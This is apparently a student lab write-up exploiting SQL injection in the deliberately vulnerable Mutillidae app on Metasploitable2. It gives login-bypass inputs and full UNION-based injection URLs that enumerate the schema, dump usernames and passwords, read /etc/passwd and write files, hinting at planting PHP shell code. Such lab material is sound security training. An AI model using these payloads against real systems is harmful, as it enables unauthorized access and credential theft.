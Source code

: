# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/850a8d55-d8eb-419c-838b-0814d724b1a1)
Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/704c742c-ccf7-4303-846e-b6c3b6526d8f)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5f7bea7b-845a-485f-8f53-b110ca38cdcd)
Click on the menu Login/Register and register for an account 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/810a3311-b71a-4832-920f-6ce1d2300e17)
Click on the link “Please register here”
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b4b277ec-a4fd-4d2d-88a0-53d4de2980eb)
Click on “Create Account” to display the following page:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/20312b73-35bd-4e94-82ec-b6ab47ec7fcb)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/94a3f1d1-f683-45dc-8247-197743109158)
Click “Login”. The logged in page will show as below:
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/27a9585a-63d6-4a90-bb50-f040a262592b)
login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b38d644b-287b-4972-81a4-0ea86647f5b2)
Click the login button and you will see it enter into the administrator page.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8fbe7398-b224-4938-9c17-60565908de7b)
# Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info” After logging out, Now choose the menu as shown below: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/f2329720-887c-48f7-be98-f5a6479b6f22)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/db6e5ac7-9aab-49d9-93b5-65039fe10212)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9737f980-188f-4525-9648-b16f9335be84)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9eaa6a6e-ff20-418b-9d2f-fecdddcb2b7c)
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/28c0f8e8-0ec0-4425-93fa-94781387e446)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned. 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8442469e-362d-48a4-915c-d0aebe490064)
ince we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8c76c295-b529-4dfb-99db-7e9248d6884d)
After adding the order by 6 into the existing url , the following error statement will be obtained: 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/9c0f38a1-ff94-4959-bc46-490135231865)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/5165e616-74e9-4847-b214-bd14bf5ea38c)
As it is having 5 columns the query worked fine and it provides the correct result.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ba6bfd81-ce12-4bb3-b921-72a478ab19d1)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5) 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/c64d8e45-73c6-43df-a6df-f3323af48303)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/031507bd-6870-480a-b58e-9e03968162a3)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/330fc46d-5a6f-437c-ad7d-8a086ae71211)
 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/8f114f64-f518-4c51-9305-b441bbf19733)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/729f4718-1446-458f-bcf6-e8652e76af69)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/b353dab2-5379-452d-83df-34efe160691f)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/09b8b9e8-679f-46cd-94be-adc8b53bd5a5)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/sachinezhilmaran/sqlinjection/assets/128135351/ad76ef59-c211-4a3d-b68a-c589586cce08)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
